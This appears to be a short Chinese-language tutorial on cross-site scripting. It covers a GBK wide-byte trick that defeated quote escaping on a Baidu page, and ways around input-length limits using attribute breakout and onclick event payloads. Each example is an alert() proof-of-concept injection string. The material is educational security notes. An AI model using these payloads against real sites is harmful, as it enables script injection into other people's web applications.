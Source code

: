 # XSS

## 0x01利用字符编码

百度在一个<script>标签中输出了一个变量，并转义了双引号：

```
var redirectUrl="\";alert(/XSS/);";
```

因为第二个双引号被转义符转义，所以alert在引号内成为变量。

但是，百度返回界面是GBK/GB2312编码，因此%c1\可以组成一个Unicode字符。所以构造：

```
%c1";alert(/XSS/);
```

百度返回：

```
var redirectUrl="%c1\";alert(/XSS/);";
```

转义符失效，双引号闭合。XSS攻击成功。

## 0x02绕过长度限制

举例说明：

```
<input type=text value="$var" />
```

服务器端如果没有对变量"$var"做长度限制，我们可以构造"$var"为：

```
"><script>alert(/XSS/)</script>
```

得到的效果为：

```
<input type=text value=""><script>alert(/XSS/)</script>" />
```

如果长度限制长度为20，那么得到的结果为：

```
<input type=text value=""><script>alert(/XSS
```

完整的payload无法构造，攻击失败。

这时，可以尝试用其他方式进行攻击，比如：事件（event）：

```
$var为 : "onclick=alert(1)
```

可以看出事件缩短的长度是有限的。

